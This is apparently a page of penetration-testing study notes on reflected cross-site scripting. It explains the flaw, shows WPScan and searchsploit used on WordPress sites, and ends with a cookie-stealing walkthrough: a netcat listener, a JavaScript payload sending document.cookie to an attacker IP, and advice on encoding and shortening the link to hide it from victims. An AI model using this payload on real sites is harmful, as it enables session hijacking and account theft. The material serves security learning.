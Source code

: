 # 4.2 Reflected XSS

## Reflected XSS

{% embed url="https://portswigger.net/web-security/cross-site-scripting/reflected" %}

<figure><img src="../../.gitbook/assets/image (73).png" alt=""><figcaption><p><a href="https://www.geeksforgeeks.org/what-is-cross-site-scripting-xss/">https://www.geeksforgeeks.org/what-is-cross-site-scripting-xss/</a></p></figcaption></figure>

Reflected cross-site scripting (or XSS) arises when an application receives data in an HTTP request and includes that data within the immediate response in an unsafe way.

Suppose a website has a search function which receives the user-supplied search term in a URL parameter:

`https://insecure-website.com/search?term=gift`

The application echoes the supplied search term in the response to this URL:

`<p>You searched for: gift</p>`

Assuming the application doesn't perform any other processing of the data, an attacker can construct an attack like this:

`https://insecure-website.com/search?term=<script>/*+Bad+stuff+here...+*/</script>`

This URL results in the following response:

`<p>You searched for: <script>/* Bad stuff here... */</script></p>`

If another user of the application requests the attacker's URL, then the script supplied by the attacker will execute in the victim user's browser, in the context of their session with the application.

### Exploiting Reflected XSS Vulnerabilities in WordPress

<details>

<summary>What is WordPress?</summary>

WordPress is a popular open-source content management system (CMS) used for creating websites and blogs. It provides a user-friendly interface and a wide range of plugins and themes, making it easy for users to build and customize their websites without needing extensive technical knowledge. WordPress is highly customizable, scalable, and is used by millions of websites worldwide.

</details>

Mainly by not frequently updating installed themes and plugins versions, vulnerabilities may occur, and this is where the WPScan tool comes in.

WPScan is a security scanner specifically designed to test the security of WordPress websites. It can identify security vulnerabilities in WordPress installations, themes, and plugins. WPScan works by scanning the target website for known security issues, such as outdated software versions, weak passwords, and common configuration errors. It helps website owners and developers identify and fix security flaws to protect their websites from potential attacks and breaches.

We can install it using following command: `sudo apt-get install wpscan`



{% embed url="https://github.com/wpscanteam/wpscan" %}

* Go to wpscan.com, register, login and configure account.
* Generate an API key/token
* Launch scan -> `wpscan --url <Website_URL>`
* See results and search potential exploit on exploitdb using `searchsploit <vulnerability_name>`
* Encode and shorten the link possibly to be sent to the victim (to hiding JS tags)

### Cookie Stealing Via Reflected XSS

* First verify that website is vulnerable to XSS -> `<script>alert("XSS")</script>`
* Take on listening on attacker machine using netcat -> `nc -lvnp 4444`
* Insert payload at the end of website -> n`ew Image() .src='http://<Attacker_IP>:4444/?cookie=' + encodeURI(document.cookie);`
* Encode and shorten the link possibly to be sent to the victim (to hiding JS tags), we can use BurpSuite decoder

<figure><img src="../../.gitbook/assets/image (77).png" alt=""><figcaption></figcaption></figure>

* Obtain connection on netcat in listening.
